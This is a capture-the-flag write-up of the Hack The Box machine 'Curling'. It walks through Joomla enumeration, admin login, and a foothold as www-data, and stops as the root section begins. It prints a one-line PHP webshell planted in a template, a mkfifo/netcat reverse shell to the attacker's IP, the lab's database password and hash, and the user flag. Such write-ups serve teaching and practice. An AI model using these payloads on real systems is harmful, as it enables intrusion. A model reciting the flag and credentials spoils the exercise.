# Hack The Box - Curling | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Machine &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.58.199` &nbsp;•&nbsp; **Time taken:** 50 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will be trying to exploit today is called Curling and it is an easy difficulty Linux box. Judging based on the name we might have to execute quite a few curl commands.

---

## Assessment Overview

```mermaid
flowchart LR
    A[Nmap<br/>SSH + Joomla]:::entry
    B[ffuf<br/>directory brute]:::intel
    C[Homepage<br/>Super User, floris]:::intel
    D[Plugin XMLs<br/>version 3.1 guess]:::intel
    E[View-source<br/>secret.txt hint]:::intel
    F[Base64<br/>Curling2018!]:::payload
    G{Joomla admin<br/>as floris}:::mitre
    H[Real version<br/>3.8.8]:::intel
    I[Protostar template<br/>PHP webshell]:::payload
    J[PentestMonkey<br/>mkfifo revshell]:::payload
    K{www-data<br/>foothold}:::user
    L[configuration.php<br/>MySQL creds]:::ioc
    M[eslfu_users<br/>bcrypt hash]:::ioc
    N[John + rockyou<br/>too slow]:::mitre
    O[password_backup<br/>hex blob]:::ioc
    P[CyberChef<br/>Hex+Bz+Gz+Bz+Tar]:::payload
    Q{SSH as floris<br/>user.txt}:::user
    R[admin-area<br/>curl input/report]:::ioc
    S[file:// SSRF<br/>root.txt]:::user

    A --> B
    A --> C
    B --> D
    C --> D
    C --> E
    E --> F
    D --> G
    F --> G
    G --> H
    G --> I
    I --> J
    J --> K
    K --> L
    L --> M
    M --> N
    K --> O
    O --> P
    P --> Q
    Q --> R
    R --> S

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```

---

## What I Learned

- Using joomscan to fingerprint the Joomla install, enumerate exposed components, templates and modules, and pull known CVEs against the detected core version, filling the same niche as wpscan does for WordPress.
- Building a site-specific wordlist with cewl by spidering the target (`cewl -w cewl.out <target>`) and feeding it into ffuf's `FUZZ` position against the login endpoint to enumerate valid usernames, so the wordlist is grounded in the site's own vocabulary rather than a generic list like `xato-net-10-million-usernames`.
- That the Joomla version can be pulled manually from `/administrator/manifests/files/joomla.xml`, which exposes the exact core version inside the `<version>` tag, handy when the front-end version string has been stripped or a scanner is being blocked.
- How to chain operations in CyberChef (for example From Hex, then Gunzip, then From Base64) to peel back a layered blob where the outer encoding hides a gzipped archive underneath, using the "Magic" recipe as a starting point when the encoding is not obvious.

---

## Enumeration

We can start an Nmap scan on our target, enumerating all versions and running default NSE scripts.

```
nmap -sVC 10.129.58.199
```



*Figure 1 - Nmap output showing SSH (22, OpenSSH 7.6p1) and HTTP (80, Apache 2.4.29) with Joomla detected, alongside the "Cewl Curling site!" homepage.*

We can see there is an SSH port open and also a web port open, so we headed on towards the web port.

Straight off the bat we can see two usernames, Super User and floris, and we can also see that it runs PHP. So now after doing some manual enumeration we can enumerate this further using ffuf and our medium directory wordlist. We found a lot of directories but the only page opening up for us seems to be `administrator`, which revealed the site uses Joomla.



*Figure 2 - ffuf and feroxbuster runs against the target, with `/administrator/` visible in the results.*

We then fuzzed all the endpoints and we didn't get much useful information. We even used feroxbuster to get as much information as possible. Then while fuzzing and scanning through the application we got the version of Joomla, it seems to be 3.1.



*Figure 3 - `/plugins/system/log/log.xml` reporting `version="3.1"`.*

We also got the username credentials.



*Figure 4 - Author email pulled from the contacts search plugin manifest.*

---

## Source Code Hint and Base64 Decode

We looked around the website and we saw a print function, perhaps we can play around with it with Burp?

However that didn't work either. Then after inspecting the source code we came across something at the bottom that said `secret.txt`.



*Figure 5 - HTML comment `<!-- secret.txt -->` at the bottom of the page source.*

Interesting, did we just get a password?



*Figure 6 - `/secret.txt` returning `Q3VybGluZzIwMTgh`.*

We can attempt this with username floris and admin, however this did not work. Perhaps its Base64, so we tried to decode and it came out to be `Curling2018!`.

And we are in with username floris, we got access. Let's try on our Joomla page too to see if it works.



*Figure 7 - Front-end login as floris (Super User) succeeds, article editor is available.*

It worked!!!!



*Figure 8 - Full access to `/administrator/index.php` as Super User.*

And it turned out our Joomla version is 3.8.8 not 3.1, so now that we have our foothold lets try find an exploit.

Exploit-DB only gave us an XSS vulnerability which won't be much use as they are only client-based attacks. But when we googled we find LFI too, and it was submitted 2018 so a good chance it will work. We also tried to SSH with floris but it didn't seem to work.

---

## Foothold via Protostar Template Webshell

Hmm, it seems none of the exploits will work, so perhaps we can write a reverse shell on one of the PHP pages. So we went to Templates and `index.php`.



*Figure 9 - Editing `/index.php` in the Protostar template from `/administrator/index.php?option=com_templates&view=template`.*

Now we can replace the entire thing with a PHP shell.

```php
<?php system($_GET['cmd']);?>
```

And we are in business.



*Figure 10 - `http://10.129.58.199/index.php?cmd=id` returning `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.*

We then started our listener and replaced it with a reverse shell code from PentestMonkey, and we were in. Now we can get our user flag.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.110 4444 >/tmp/f
```



*Figure 11 - `nc -nlvp 4444` catching the callback from the mkfifo payload, landing as www-data.*

---

## MySQL Credentials from configuration.php

When we head over to `configuration.php` we can see the MySQL password.



*Figure 12 - `configuration.php` exposing `$user = 'floris'`, `$password = 'mYsQ!P4ssw0rd$yea!'`, `$db = 'Joombla'`, `$dbprefix = 'eslfu_'`. Base64 decoding of `Q3VybGluZzIwMTgh` also visible on the right.*

We can now access the MySQL to see if we can get more. We then logged into MySQL with floris and the password, then we ran `show databases`.

We saw there was one called `Joombla`, ran `use Joombla`, `show tables`, and enumerated the `eslfu_users` table and found floris's hash.



*Figure 13 - `SELECT id, name, username, email, password FROM eslfu_users;` returning `$2y$10$4t3DQSg0DSlKcDEkf1qEcu6nUFEr/gytHfVENwSmZN1MXxE1Ssx.e`.*

Then we created a hash file and ran John against `rockyou.txt`.

We waited for ages but there was still no response, so maybe here is an alternative way.



*Figure 14 - John the Ripper running against the bcrypt hash with rockyou.txt, ETA is days out because of the bcrypt cost.*

---

## password_backup and the CyberChef Decode Chain

When we went back we saw that there is a password file we have read access to.



*Figure 15 - `/home/floris/password_backup` is world-readable, `user.txt` in the same directory is `-rw-r-----` and needs floris.*

And when we read it we get a hex string.



*Figure 16 - `cat password_backup` showing the hex dump, the `BZh` magic bytes at the top indicate bzip2.*

We can put this on CyberChef to decode what it is.

And when we try and get the original backup we get the following.



*Figure 17 - Recipe `From Hexdump -> Bzip2 Decompress -> Gunzip -> Bzip2 Decompress -> Untar` produces `password.txt` containing `5d<wdCbdZu)|hChXll`.*

And this cannot be Base64 as there are invalid characters. Lets try and escalate our privileges. This worked, so we decided to SSH in as this will make the terminal faster. We then got our user.txt, but it seems we ran into another problem as floris cannot run sudo.



*Figure 18 - `ssh floris@10.129.58.199` with the decoded password gets us in, `cat user.txt` returns `a7ae2d880fb51fe499bb5d36eded9543`, and `sudo -l` and `sudo su` both refuse.*

> **User flag**
>
> **Answer:** `a7ae2d880fb51fe499bb5d36eded9543`

---

## Root via curl file:// in admin-area

It seems there is an admin area which is owned by root but we have access to, so we went in and we found an input file that shows localhost and a report file which doesn't contain anything.

